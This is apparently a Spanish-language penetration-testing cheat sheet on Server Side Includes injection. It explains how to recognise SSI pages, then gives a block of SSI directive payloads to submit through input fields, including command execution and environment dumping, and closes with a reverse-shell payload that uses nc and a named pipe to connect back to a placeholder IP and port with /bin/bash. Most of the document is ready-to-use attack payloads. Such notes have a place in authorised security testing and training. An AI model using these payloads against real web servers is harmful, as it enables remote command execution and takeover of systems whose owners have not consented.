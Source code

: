 # Server Side Includes SSI

## INTRODUCCION

El lado del servidor incluye (`SSI`) es una tecnología utilizada por las aplicaciones web para crear contenido dinámico en páginas HTML antes de cargarlas o durante el proceso de representación mediante la evaluación de directivas SSI. Algunas directivas de SSI son:

>[!note]
>El uso de SSI en una aplicación web se puede identificar buscando extensiones como .shtml, .shtm o .stm.

Existen configuraciones de servidor no predeterminadas que podrían permitir que otras extensiones (como .html) procesen directivas SSI.

## PAYLOADS

```html
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```

Necesitamos enviar cargas útiles a la aplicación de destino, como las mencionadas anteriormente, a través de campos de entrada para probar la inyección de SSI. El servidor web analizará y ejecutará las directivas antes de mostrar la página si hay una vulnerabilidad presente.

>[!note]
>tenga en cuenta que esas vulnerabilidades también pueden existir en formato ciego. 

La inyección SSI exitosa puede conducir a la extracción de información confidencial de archivos locales o incluso a la ejecución de comandos en el servidor web de destino.

### REVERSE SHELL

```html
<!--#exec cmd="mkfifo /tmp/foo;nc <IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```